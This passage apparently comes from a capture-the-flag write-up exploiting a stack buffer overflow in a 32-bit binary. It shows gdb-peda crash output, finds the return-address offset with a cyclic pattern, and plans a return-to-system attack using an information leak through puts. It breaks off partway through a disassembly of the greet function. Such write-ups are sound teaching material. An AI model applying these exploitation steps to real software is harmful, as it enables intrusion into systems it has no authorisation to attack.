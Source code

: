 ```
EDI: 0xf7fae000 --> 0x1b5db0 
EBP: 0x41416741 ('AgAA')
ESP: 0x41414a3d ('=JAA')
EIP: 0x80487e9 (<main+250>:	ret)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80487e4 <main+245>:	pop    esi
   0x80487e5 <main+246>:	pop    ebp
   0x80487e6 <main+247>:	lea    esp,[ecx-0x4]
=> 0x80487e9 <main+250>:	ret    
   0x80487ea:	xchg   ax,ax
   0x80487ec:	xchg   ax,ax
   0x80487ee:	xchg   ax,ax
   0x80487f0 <__libc_csu_init>:	push   ebp
[------------------------------------stack-------------------------------------]
Invalid $SP address: 0x41414a3d
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x080487e9 in main () at vuln.c:41
41	}
gdb-peda$ pattern offset AAJA
AAJA found at offset: 79
```

So we can see that the hex string which is in the return address is `0x41414a3d`, which once you take into account the minus `0x4` means that that string is `AAJA`.  With that we can see that the offset to the return address is 80 (it starts with 0).  

Now that we have control over the return address, we can try to execute a return to system attack. In order to do this, we will need two infoleaks. One from libc (so we can figure out the addresses of `system` and `binsh`) and one from the stack (it expects the return address to store a pointer to the code, so we wil need to know where on the stack our rop chain is held).

With this the greet function will come in handy. We can see that it scans in input into a char array, then prints it out using puts. The thing about this is it does not write over the memory prior to being printed, so there should be data in there that we can leak. Since puts waits for a null terminator to stop printing, as long as there isn't a null byte between the start of our input and the addresses we need to leak, we should get the leak.

Let's see what we can leak:

```
gdb-peda$ disas greet
Dump of assembler code for function greet:
   0x08048636 <+0>:	push   ebp
   0x08048637 <+1>:	mov    ebp,esp
   0x08048639 <+3>:	push   ebx
   0x0804863a <+4>:	sub    esp,0x44
   0x0804863d <+7>:	call   0x8048570 <__x86.get_pc_thunk.bx>
   0x08048642 <+12>:	add    ebx,0x19be
   0x08048648 <+18>:	sub    esp,0xc
   0x0804864b <+21>:	lea    eax,[ebx-0x1790]
   0x08048651 <+27>:	push   eax
   0x08048652 <+28>:	call   0x80484b0 <printf@plt>
   0x08048657 <+33>:	add    esp,0x10
   0x0804865a <+36>:	sub    esp,0xc
   0x0804865d <+39>:	push   DWORD PTR [ebp+0x8]
   0x08048660 <+42>:	call   0x8048510 <fileno@plt>
   0x08048665 <+47>:	add    esp,0x10
   0x08048668 <+50>:	mov    edx,eax
   0x0804866a <+52>:	sub    esp,0x4
   0x0804866d <+55>:	push   0x40
   0x0804866f <+57>:	lea    eax,[ebp-0x48]
   0x08048672 <+60>:	push   eax
```